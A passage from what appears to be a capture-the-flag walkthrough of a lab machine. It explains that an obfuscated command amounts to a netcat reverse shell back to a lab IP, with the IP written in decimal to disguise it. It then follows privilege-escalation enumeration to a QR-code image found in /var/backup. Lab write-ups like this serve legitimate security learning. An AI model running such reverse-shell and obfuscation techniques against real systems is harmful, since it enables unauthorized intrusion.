 That command is equivalent to `/bin/netcat -e /bin/sh 192.168.56.1 1234`. I converted that IP address to a simple decimal.

## Privilege escalation

Since I was in the system I downloaded the enumeration script and ran it to see if I can find anything to exploit.

I found 2 SUIDs

![](images/fugit3/sudi.png)

but those are used by system and are not exploitable.

After some look around I found a png file named `beverlie.png` in `/var/backup`

![](images/fugit3/qrcode.png)

I used python's `http.server` to download the image and found out that it was actually a QR code.
